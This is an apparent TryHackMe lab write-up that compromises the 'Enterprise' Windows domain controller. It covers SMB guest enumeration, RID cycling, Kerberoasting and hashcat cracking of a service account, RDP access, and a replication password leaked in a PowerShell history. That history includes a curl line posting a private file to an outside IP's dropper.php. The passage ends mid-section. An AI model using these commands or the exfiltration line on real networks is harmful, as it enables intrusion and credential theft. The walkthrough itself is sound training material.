









# Enterprise Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | Enterprise |
| **OS** | Windows Server 2019 (Build 17763 x64) |
| **Difficulty** | Medium / Hard |
| **Domain** | LAB.ENTERPRISE.THM / ENTERPRISE.THM |
| **Domain Controller** | LAB-DC.LAB.ENTERPRISE.THM |
| **Platform** | TryHackMe |

> [!Note]
> This writeup covers my entire compromise journey of Enterprise, documenting all the recon, exploitation steps, privilege escalations, and the multiple rabbit holes I encountered along the way.

---

## Enumeration

### Nmap Port Scan

I initiated my reconnaissance phase with a comprehensive TCP port scan across all 65,535 ports on the target.

```
Not shown: 65508 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-04 02:08:38Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7990/tcp  open  http          Microsoft IIS httpd 10.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
49725/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan reveals a standard Active Directory Domain Controller setup running Windows Server 2019. The NetBIOS name is `LAB-DC` under the domain `LAB.ENTERPRISE.THM`. Standard AD services are active, including DNS (53), Kerberos (88), LDAP (389/3268), and SMB (445). Additionally, Remote Desktop (3389) and WinRM (5985) are listening. I also spotted an interesting HTTP service running on port 7990 alongside the default web server on port 80.

A quick banner check on port 7990 reveals an Atlassian Bitbucket instance.

```bash
curl -sI http://"$target":7990
```

```http
HTTP/1.1 200 OK
Content-Length: 325229
Content-Type: text/html
Last-Modified: Sat, 13 Mar 2021 02:08:21 GMT
Accept-Ranges: bytes
ETag: "418224bead17d71:0"
Server: Microsoft-IIS/10.0
Date: Wed, 04 Nov 2026 02:34:35 GMT
```

### SMB Share Enumeration & Encrypted Office Files

Testing for anonymous or guest SMB access allowed me to view available shares without supplying credentials.

```bash
nxc smb $target -u 'guest' -p '' -M gpp_password
```

```
SMB         10.49.164.25    445    LAB-DC           [*] Windows 10 / Server 2019 Build 17763 x64 (name:LAB-DC) (domain:LAB.ENTERPRISE.THM) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.49.164.25    445    LAB-DC           [+] LAB.ENTERPRISE.THM\guest: 
SMB         10.49.164.25    445    LAB-DC           [*] Enumerated shares
SMB         10.49.164.25    445    LAB-DC           Share           Permissions     Remark
SMB         10.49.164.25    445    LAB-DC           -----           -----------     ------
SMB         10.49.164.25    445    LAB-DC           ADMIN$                          Remote Admin
SMB         10.49.164.25    445    LAB-DC           C$                              Default share
SMB         10.49.164.25    445    LAB-DC           Docs            READ            
SMB         10.49.164.25    445    LAB-DC           IPC$            READ            Remote IPC
SMB         10.49.164.25    445    LAB-DC           NETLOGON                        Logon server share 
SMB         10.49.164.25    445    LAB-DC           SYSVOL                          Logon server share 
SMB         10.49.164.25    445    LAB-DC           Users           READ            Users Share. Do Not Touch!
```

Guest authentication gave me read permissions on both `Docs` and `Users`. Connecting to the `Docs` share surfaced two sensitive-looking documents.
- `RSA-Secured-Document-PII.docx`
- `RSA-Secured-Credentials.xlsx`

Examining the header strings of both documents shows they are password-protected Microsoft Office documents encrypted via standard agile encryption (AES-256-CBC with SHA-512 and a spin count of 100,000 iterations).

```bash
strings -n 10 RSA-Secured-Document-PII.docx
strings -n 10 RSA-Secured-Credentials.xlsx
```



### User RID Brute-Forcing

Using NetExec, I queried the Local Security Authority (LSA) via RID cycling using the guest account to extract the full list of domain accounts and groups.

```bash
nxc smb $target -u 'guest' -p '' --rid
```

```
SMB         10.49.164.25    445    LAB-DC           [+] LAB.ENTERPRISE.THM\guest: 
SMB         10.49.164.25    445    LAB-DC           500: LAB-ENTERPRISE\Administrator (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           501: LAB-ENTERPRISE\Guest (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           502: LAB-ENTERPRISE\krbtgt (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           512: LAB-ENTERPRISE\Domain Admins (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           513: LAB-ENTERPRISE\Domain Users (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           514: LAB-ENTERPRISE\Domain Guests (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           515: LAB-ENTERPRISE\Domain Computers (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           516: LAB-ENTERPRISE\Domain Controllers (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           517: LAB-ENTERPRISE\Cert Publishers (SidTypeAlias)
SMB         10.49.164.25    445    LAB-DC           520: LAB-ENTERPRISE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           521: LAB-ENTERPRISE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           522: LAB-ENTERPRISE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           525: LAB-ENTERPRISE\Protected Users (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           526: LAB-ENTERPRISE\Key Admins (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           553: LAB-ENTERPRISE\RAS and IAS Servers (SidTypeAlias)
SMB         10.49.164.25    445    LAB-DC           571: LAB-ENTERPRISE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.49.164.25    445    LAB-DC           572: LAB-ENTERPRISE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.49.164.25    445    LAB-DC           1000: LAB-ENTERPRISE\atlbitbucket (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1001: LAB-ENTERPRISE\LAB-DC$ (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1102: LAB-ENTERPRISE\DnsAdmins (SidTypeAlias)
SMB         10.49.164.25    445    LAB-DC           1103: LAB-ENTERPRISE\DnsUpdateProxy (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           1104: LAB-ENTERPRISE\ENTERPRISE$ (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1106: LAB-ENTERPRISE\bitbucket (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1107: LAB-ENTERPRISE\nik (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1108: LAB-ENTERPRISE\replication (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1109: LAB-ENTERPRISE\spooks (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1110: LAB-ENTERPRISE\korone (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1111: LAB-ENTERPRISE\banana (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1112: LAB-ENTERPRISE\Cake (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1113: LAB-ENTERPRISE\Password-Policy-Exemption (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           1114: LAB-ENTERPRISE\Contractor (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           1115: LAB-ENTERPRISE\sensitive-account (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           1116: LAB-ENTERPRISE\contractor-temp (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1117: LAB-ENTERPRISE\varg (SidTypeUser)
SMB         10.49.164.25    445    LAB-DC           1118: LAB-ENTERPRISE\adobe-subscription (SidTypeGroup)
SMB         10.49.164.25    445    LAB-DC           1119: LAB-ENTERPRISE\joiner (SidTypeUser)
```

I parsed out the user accounts into a clean `valid_user.txt` wordlist for credential testing.

```
Administrator
Guest
krbtgt
atlbitbucket
LAB-DC$
ENTERPRISE$
bitbucket
nik
replication
spooks
korone
banana
Cake
contractor-temp
varg
joiner
```

### AS-REP Roasting & Kerberoasting

With my user list ready, I tested for AS-REP Roastable accounts (users with `DONT_REQ_PREAUTH` enabled) using Impacket's `GetNPUsers.py`.

```bash
impacket-GetNPUsers LAB.ENTERPRISE.THM/guest -usersfile valid_user.txt -dc-ip $target -no-pass
```

None of the accounts had pre-authentication disabled. Next, I tested for Kerberoasting using `GetUserSPNs.py`.

```bash
impacket-GetUserSPNs LAB.ENTERPRISE.THM/guest -dc-ip $target -no-pass -usersfile valid_user.txt
```

```
$krb5tgs$18$krbtgt$LAB.ENTERPRISE.THM$*krbtgt*...
$krb5tgs$18$LAB-DC$$LAB.ENTERPRISE.THM$*LAB-DC$*...
$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$bitbucket*$cb579022c6b68304d2514d01761a8842$...
```



I successfully retrieved Service Principal Name tickets for `krbtgt`, `LAB-DC$`, and `bitbucket`.

Inspecting the Kerberos encryption types indicates a critical difference.
- Both `krbtgt` and `LAB-DC$` use Kerberos 5 etype 18 (AES256-CTS-HMAC-SHA1-96, hashcat mode 19700). Cracking AES-256 Kerberos tickets with dictionary attacks is computationally infeasible.
- The `bitbucket` service account uses Kerberos 5 etype 23 (RC4-HMAC, hashcat mode 13100), which is extremely fast and practical to crack offline.



I fed the ticket hash into Hashcat against `rockyou.txt`.

```bash
hashcat hash.txt --show
```

```
13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol

$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$bitbucket*$8a72285c02ceb62638ed14dd16f5bfa8$2fac7d1839a1d4eeeb33cf4ebee59b739dd229529b81748fdb3dd727d2e2feb4028c14f5549c5d069272e2a0ccee3d0ced4055f18041b05c7db101aabb4089aa37471299bfd253b51ea2f84572c4c563728667058a75a118a2204011f9074814264c1df5a29b4e2a828ca713544177bef29453501b3e981b9f33890d8103d041ee33a9c0f5147b055f47867624244c572c3805a74efe93d388291fd248fc0544a9ea43f2a45b1ef0c6f1ed824975b7f8c31844d96e3ae14c78acdfa607c7984f37c1461bc875f29106b8aa9acd3af0a89f4288f596b4cff7480443cae88eb8be94840c5749de75ff892dc74e98f331c07cb7c03448d6e044bf88eb92765c2d43977889f774708c4594f4f3e833beca9a775c52d7439a2852ec408b5276feda0b26bf86739f23c37ec72391d3409df16eedb4fc6e847f0c5d368bf63a3cd1406b1c9182e53f1a36b37c5856bf6a622103e66a7b37a90d4d6c11e78fd6fad5bbed4002f0ececf868bf669f58ab55591eb80d3cfc3a31a48f98d4a894ae66abd3e175a403958d16da8611ec085cf01115f71fd77549a0bfaa4cc904d988a526bf6632da0a5433498f5956fa18e4726415fff46ae939c6f71e5d9bcf30aa5c3632b5af9d0c33744d17389baae1cfe20bf52c2a079f78c7dd4983a63bf9b6bf5bbe7b41373197aad53e582986dc9bf24c237fa59b558841fc5f79fcb8b3922a9522ac72632324ad11ecbb0c970a8258f8b01cbb5bf870a7acaefdf3909c8473189a524ad0a5037dd072ff050317c34b6ec35c7f078278f54253559cc3c11b1c7926f5b04831e8990e3dd20a6efd465e59fe9c17a4733a9f46353e01c19767b4a862db97e810462e76526b5bfb30e0def36f8a222b5847928b57634bebc7d7ebf446a8468fdd4672ba6aa8739eb4e08cfa840e28f61f8b00942be44f7b64151af8206b42defca35b9b5be9dfd43621fcfbd4c85c4047cb171f532db085c4adf4417241c2230786648e69843369f00bf1b632d1d9379a3600839a6d4f09a9444660108debdad133d8d9dbc9844d51cc377dac03c7d7bc43eea6bde03875944c57daf00a0d3937e23d2d2a85370eb7d66b83adbbfb868a7943bdad7ca4c8440965de0de7f91188c8eaac6cb0007bd4813c573b1770c1a65191be9171a524f76b6b5b5b84fd381af3f1c86eb12022d9a3f133d9db389265615754a06ad8c3f3dc7d014da7e9ba0f4d842c878f509b993672d16872628c800ebd2f651ba0e1baa71bc809e8a256f9f9b00b3d99a7479079682812fdc71a8ab940d0234727e494eee0d38a5e9ec6f8bc87ae32aab72ee263abf79ce2cddf5fe458b881de26b8b74ba2:littleredbucket
```

The ticket cracks instantly, yielding valid domain user credentials.
`bitbucket : littleredbucket`

---

## Initial Foothold

### Credential Validation & RDP Login

I verified the cracked credentials across remote management services.

```bash
nxc winrm $ip -u "$user" -p "$pass"
```

```
WINRM       10.48.138.60    5985   LAB-DC           [*] Windows 10 / Server 2019 Build 17763 (name:LAB-DC) (domain:LAB.ENTERPRISE.THM) 
WINRM       10.48.138.60    5985   LAB-DC           [-] LAB.ENTERPRISE.THM\bitbucket:littleredbucket
```

WinRM authentication failed because `bitbucket` is not a member of Remote Management Users. Next, I tested Remote Desktop (port 3389).

```bash
nxc rdp $ip -u "$user" -p "$pass"
```

```
RDP         10.48.138.60    3389   LAB-DC           [*] Windows 10 or Windows Server 2016 Build 17763 (name:LAB-DC) (domain:LAB.ENTERPRISE.THM) (nla:False)
RDP         10.48.138.60    3389   LAB-DC           [+] LAB.ENTERPRISE.THM\bitbucket:littleredbucket (Pwn3d!)
```

The account had interactive remote desktop rights. I established an RDP session using FreeRDP and spawned a command prompt.

```cmd
C:\Users\bitbucket>whoami
lab-enterprise\bitbucket

C:\Users\bitbucket>whoami /all

USER INFORMATION
----------------
User Name                SID
======================== ============================================
lab-enterprise\bitbucket S-1-5-21-2168718921-3906202695-65158103-1106

GROUP INFORMATION
-----------------
Group Name                                 Type             SID                                          Attributes
========================================== ================ ============================================ ==================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                 Group used for deny only
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                      Mandatory group, Enabled by default, Enabled group
LAB-ENTERPRISE\sensitive-account           Group            S-1-5-21-2168718921-3906202695-65158103-1115 Mandatory group, Enabled by default, Enabled group
LAB-ENTERPRISE\Password-Policy-Exemption   Group            S-1-5-21-2168718921-3906202695-65158103-1113 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token  Disabled
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

---

## Exploring Rabbit Holes

### Rabbit Hole 1: Domain GPO Privileges & UAC Lockdown

Running NetExec's `gpp_privileges` module against the Default Domain Policy `GptTmpl.inf` revealed that the domain policy assigned powerful rights to `bitbucket`, including `SeDebugPrivilege` and `SeImpersonatePrivilege`.



However, when inspecting my interactive session on the machine via `whoami /priv`, neither `SeDebugPrivilege` nor `SeImpersonatePrivilege` was active in the token. Attempting to run cmd with administrative rights resulted in a UAC prompt failing with an error.
`Logon failure: the user has not been granted the requested logon type at this computer`



Checking stored credentials with `cmdkey /list` only showed a generic virtualapp credential.

```cmd
C:\Users\bitbucket>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02fuqirlipnfpbgl
    Local machine persistence
```

### Rabbit Hole 2: Office Document Cracking via Office2John

Since GPO rights were restricted by UAC, I investigated the encrypted Office spreadsheets found on the `Docs` share.

I extracted the Office encryption hashes using `office2john.py`.

```bash
office2john RSA-Secured-Credentials.xlsx > creds.hash
cut -d':' -f2 creds.hash >> cred.hash
cat cred.hash
```

```
$office$*2013*100000*256*16*95f4b8616169cc40904836f94aa3524f*ebfc9c7c926ba55752740a60ee7cf222*4ec8ea0badcf0dd4b3f44993a9d5cdf0fc215d03d7b519bc16327bacdb992819
$office$*2013*100000*256*16*c6a4a0961d1c0afa60022558596776a5*6469c6e890f779b7dd5a16e784b7c020*626bd8c35bf1c50f40a640ee755eb89b569594aa1b7c3402cde6761249e1e931
```

I launched Hashcat targeting mode 9600 (`MS Office 2013`).

```bash
hashcat -a 0 -m 9600 cred.hash /usr/share/wordlists/rockyou.txt
```

```
Hash.Mode........: 9600 (MS Office 2013)
Hash.Target......: cred.hash
Time.Started.....: Wed Nov  4 23:03:41 2026 (7 mins, 27 secs)
Time.Estimated...: Sun Nov 15 11:40:09 2026 (10 days, 12 hours)
Speed.#01........:       32 H/s (27.10ms) @ Accel:46 Loops:1000 Thr:1 Vec:2
Progress.........: 14076/28688770 (0.05%)
```

At 32 hashes per second due to the 100,000 PBKDF2 iterations, an exhaustive search through `rockyou.txt` would take over 10 days. I terminated this attack after 7 minutes as it was clearly impractical.

### Rabbit Hole 3: LAB-ADMIN Profile & Leaked Replication Credential

Returning to the RDP desktop, I explored other accessible user directories under `C:\Users\`. The folder `C:\Users\LAB-ADMIN\` was readable.

While DPAPI master keys and RSA private files were located under `AppData\Roaming\Microsoft\Crypto\RSA\` and `AppData\Local\Microsoft\Credentials\`, I lacked the LAB-ADMIN plaintext password needed to decrypt DPAPI blobs.

However, inspecting PowerShell history under `AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\` revealed a history file named `Consolehost_hisory.txt`.

```cmd
C:\Users\LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline>type Consolehost_hisory.txt
```



The history recorded the following administrator commands.

```powershell
cd C:\
mkdir monkey
cd monkey
cd ..
cd ..
cd ..
cd D:
cd D:
cd D:
D:\
mkdir temp
cd temp
echo "replication:101RepAdmin123!!">private.txt
Invoke-WebRequest -Uri http://1.215.10.99/payment-details.txt
more payment-details.txt
curl -X POST -H 'Cotent-Type: ascii/text' -d .\private.txt' http://1.215.10.99/dropper.php?file=itsdone.txt
del private.txt
del payment-details.txt
cd ..
del temp
cd C:\
C:\
exit
```

This leaked credentials for the `replication` user.
`replication : 101RepAdmin123!!`

### Rabbit Hole 4: BloodHound DCSync & Replication Authentication Failure

I mapped the domain relationships using BloodHound to see what permissions the `replication` user held. BloodHound showed that `REPLICATION@LAB.ENTERPRISE.THM` had domain-level `GetChanges` and `GetChangesAll` permissions, granting direct DCSync capabilities.



I confirmed the user's presence in Active Directory via LDAP.

```bash
